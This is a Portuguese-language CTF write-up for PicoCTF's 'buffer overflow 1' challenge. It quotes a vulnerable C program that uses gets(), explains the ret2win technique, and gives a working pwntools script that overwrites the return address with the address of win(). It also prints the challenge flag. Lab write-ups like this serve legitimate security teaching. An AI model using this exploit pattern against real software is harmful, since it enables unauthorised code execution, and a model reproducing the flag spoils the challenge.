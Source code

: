 # WriteUp: buffer overflow 1
## Descrição do Desafio:
**Autor**: Sanjay C / Palash Oswal \
**Plataforma**: [PicoCTF](https://play.picoctf.org/practice/challenge/258?category=6&page=2) \
**Categoria**: Binary Exploitation \
**Dificuldade**: Média \
**Data**: 2022 \
**Descrição**:
> Control the return address

## Passo a Passo da Solução
### 1. Análise do arquivo fornecido
Assim como o anterior, este também fornece o arquivo fonte, `vuln.c`. Analisando o arquivo, podemos identificar uma vulnerabilidade de `buffer overflow` na função `vuln()`.

{% code title="vuln.c" overflow="wrap" lineNumbers="true" %}

```c
void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}
```

{% endcode %}

Ainda olhando para o código, podemos ver que não há nenhuma função setada para caso ocorra *segmentation fault*, mas ainda há uma função que imprime a **flag**.

{% code title="vuln.c" overflow="wrap" lineNumbers="true" %}

```c
void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}
```

{% endcode %}

### 2. Exploit
Como a própria descrição do desafio diz, temos que controlar o endereço de retorno da função `vuln()`, fazer um famoso `Ret2Win`.

Resumidamente, quando uma função é chamada, é colocado o endereço de retorno dela no topo da pilha, e a pilha é uma região que pode ser facilmente sobrescrevida por `buffer overflow` (usando variáveis que estão na pilha, como é neste caso).
### 3. Solução
O primeiro passo para realizar um `Ret2Win` é identificar quantos *bytes* devem ser sobrescrevidos até chegar na região onde o endereço de retorno está armazenado, no meu caso apenas fui digitando e verificando pelo `GDB`, mas existem maneiras mais fáceis.

Com esse valor em mãos, basta escrever essa quantidade com lixo e em seguida escrever o endereço para onde você quer retornar, se atente a coisas como `little-endian` e arquitetura **32-bits** ou **64-bits**.

{% hint style="warning" %}

**Importante:** Para encontrar o endereço da função `win()`, basta olhar em um decompilador ou debugger, pois a proteção `PIE` está desativada.

{% endhint %}

### 3.1 Solução com Python

{% code title="solve.py" overflow="wrap" lineNumbers="true" %}

```py
from pwn import *

elf = context.binary = ELF("./vuln")
p = remote(ip, porta) #Trocar pelos valores fornecidos.

payload = flat(
    "A" * 44,
    elf.sym["win"]
)

print(hex(elf.sym["win"]))

p.sendlineafter(b"string: ", payload)
p.recvline()

print(p.recvall().decode())
```

{% endcode %}

### Flag
`picoCTF{addr3ss3s_ar3_3asy_6462ca2d}`

## Autor da WriteUp
[Membro de Exploitation - HenriUz](https://github.com/HenriUz)
